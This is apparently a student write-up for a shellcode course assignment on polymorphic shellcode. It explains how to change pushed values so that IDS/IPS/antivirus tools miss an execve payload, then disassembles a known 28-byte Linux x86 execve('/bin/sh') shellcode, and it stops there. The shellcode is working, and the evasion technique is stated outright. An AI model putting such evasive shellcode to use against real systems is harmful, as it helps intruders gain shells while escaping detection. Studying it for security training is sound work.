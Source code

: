 # Assignment-VI - Polymorphic Shellcode

Introduction
Polymorphism is the ability of an object to take on many forms. For pushing the value 0x6e69622f(nib/) into the stack will alert the IPS/AV. Instead we can go around the clock and push the dword 0x6e69622e and add a corresponding 0x00000001 so that it will be hard for the IDS/IPS/AV to detect the code for any possible execves.


### Challenge 1 : Analyzing Linux x86 execve("/bin/sh") - 28 bytes
http://shell-storm.org/shellcode/files/shellcode-811.php

This is an execve("/bin/sh") of 28 byte. Let's check the code.

```
08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80
 ```
 
